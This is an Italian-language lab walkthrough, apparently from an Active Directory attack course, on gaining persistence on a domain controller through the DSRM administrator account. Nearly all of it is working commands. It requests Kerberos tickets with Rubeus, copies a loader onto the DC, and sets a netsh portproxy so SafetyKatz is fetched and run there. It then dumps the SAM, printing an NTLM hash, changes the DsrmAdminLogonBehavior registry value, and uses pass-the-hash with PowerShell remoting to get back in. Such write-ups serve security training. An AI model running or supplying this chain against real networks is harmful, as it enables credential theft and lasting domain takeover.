

# LEARNING OBJECTIVE11

* &#x20;During additional lab time:
  * Use Domain Admin privileges obtained earlier to abuse the DSRM\
    credential for persistence.

### SVOLGIMENTO

Possiamo mantenere l'accesso amministrativo al DC una volta ottenuti i privilegi di amministratore di dominio sfruttando l'amministratore DSRM.

```powershell
 C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

<figure><figcaption></figcaption></figure>

Nel nuovo processo spawnato copiamo il Loader&#x20;

```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
```

<figure><figcaption></figcaption></figure>

Accediamo il dc  con winrs e aggiungiamo l'interfaccia portproxy&#x20;

```
winrs -r:dcorp-dc cmd
```

```powershell
netsh interface portproxy add v4tov4 listenport=8080 listenadress=0.0.0.0 connectport=80 connectaddress=172.16.100.60
```

<figure><figcaption></figcaption></figure>

A questo punto eseguiamo SafetyKatz per recuperare l'hash del  administrator DRM

```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "token::elevate" "lsadump::evasive-sam" "exit"
```

<figure><figcaption></figcaption></figure>

Abbiamo l'hash NTLM&#x20;

User : Administrator\
Hash NTLM: a102ad5753f4c441e3af31c97fad86fd

L'amministratore DSRM non è autorizzato ad accedere al DC dalla rete. È quindi necessario modificare il comportamento di accesso dell'account modificando il registro sul DC. È possibile farlo come segue:

```powershell
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f
```

<figure><figcaption></figcaption></figure>

Ora sulla VM dello studente, possiamo usare Pass-The-Hash (non OverPass-The-Hash) per l'amministratore DSRM:

```powershell
 C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe "sekurlsa::evasive-pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:cmd.exe" "exit"
```

<figure><figcaption></figcaption></figure>

Dal nuovo processo, ora possiamo accedere a dcorp-dc. Si noti che stiamo utilizzando PowerShell Remoting con indirizzo IP e autenticazione - ‘NegotiateWithImplicitCredential’ poiché stiamo utilizzando l'autenticazione NTLM. Quindi, dobbiamo modificare TrustedHosts per la VM dello studente. Eseguire il comando seguente da una sessione PowerShell con privilegi elevati:

```powershell
Set-Item WSMan:\localhost\Client\TrustedHosts 172.16.2.1
```

<figure><figcaption></figcaption></figure>

Apriamo un prompt amminstrativo cmd dopo aver modificato il TrustedHosts

```powershell
"C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat"
```

```powershell
 Enter-PSSession -ComputerName 172.16.2.1 -Authentication NegotiateWithImplicitCredential
```

<figure><figcaption></figcaption></figure>

Una volta acceduto il DC possiamo verificare l'utenza attuale usando il seguente comando

```powershell
$env:username
```

<figure><figcaption></figcaption></figure>
